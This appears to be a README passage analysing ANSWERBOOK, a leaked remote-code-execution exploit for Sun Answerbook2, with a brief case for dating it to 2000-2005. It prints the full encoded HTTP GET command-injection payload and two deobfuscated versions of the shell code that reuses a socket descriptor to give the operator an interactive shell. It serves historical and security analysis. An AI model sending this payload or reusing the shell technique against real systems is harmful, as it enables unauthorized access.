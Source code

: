 # ANSWERBOOK

ANSWERBOOK is an RCE exploit for Sun Answerbook2. Given the software and the opsnotes, it's likely that this exploit was used around 2000-2005.

According to [abopscript.txt](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/doc/old/etc/abopscript.txt) it will trigger a shell using the following HTTP GET command:
```
GET /ab2/@LegacyPageView?ps=`echo%20"\%0A(/bin/ksh<<\%2B%0As=63%0Awhile%20[%20ABC%20-gt%208%20]%0Ado%0A[[%20-S%20/dev/fd/ABC%20]]%20%26%26%20break%0A((s=ABC-1))%0Adone%0A[%20ABC%20-gt%208%20]%20%26%26%20exec%20sh%20-i%20</dev/fd/ABC%20>%20/dev/fd/ABC%202>%261%20%26%0A%2B%0A)2>/dev/null%26%0A"%20|%20sed%20's/ABC/$s/g'%20|%20sh` HTTP/1.0
```

Cleaning up the command a bit:
```
echo "\
(/bin/ksh<<\+
s=63
while [ ABC -gt 8 ]
do
[[ -S /dev/fd/ABC ]] && break
((s=ABC-1))
done
[ ABC -gt 8 ] && exec sh -i </dev/fd/ABC > /dev/fd/ABC 2>&1 &
+
)2>/dev/null&
" | sed 's/ABC/$s/g' | sh
```

Cleaning it even more, it runs this command using `sh`:
```
(/bin/ksh<<\+
	s=63
	while [ $s -gt 8 ]
	do
		[[ -S /dev/fd/$s ]] && break
		((s=$s-1))
	done
	[ $s -gt 8 ] && exec sh -i </dev/fd/$s > /dev/fd/$s 2>&1 &
+
)2>/dev/null &
```

The `<<\+` until the `+` is a HEREDOC, essentially executing the commands with `/bin/ksh`. It will find a find a filedescriptor (bigger than 8) that is a socket and redirect the input and output to a shell, giving the Operator a shell.

## Reason for 2000-2005

Above, I vaguely mention that according to the opsnotes and software, the exploit was used in the period of 2000-2005. The reasons for this are:

* `/tmp/.X11R6`: as "work" folder for an Operation.
* The use of nosy
